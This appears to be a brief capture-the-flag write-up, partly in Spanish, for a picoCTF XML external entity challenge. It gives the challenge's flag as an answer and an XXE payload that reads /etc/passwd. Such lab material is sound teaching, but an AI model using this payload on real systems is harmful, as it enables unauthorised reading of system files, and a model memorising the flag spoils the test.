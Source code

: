 ## Description

The web project was rushed and no security assessment was done. Can you read the /etc/passwd file?

Additional details will be available after launching your challenge instance.
### Solucion

```
picoCTF{XML_3xtern@l_3nt1t1ty_540f4f1e}
```
### Notas Adicionales
usar este payload para leer archivos
<!DOCTYPE foo [
    <!ENTITY xxe SYSTEM "file:///etc/passwd">  <!-- Define una entidad que lee un archivo del sistema -->
]>
### Referencias
https://youtu.be/b1pGlutUL34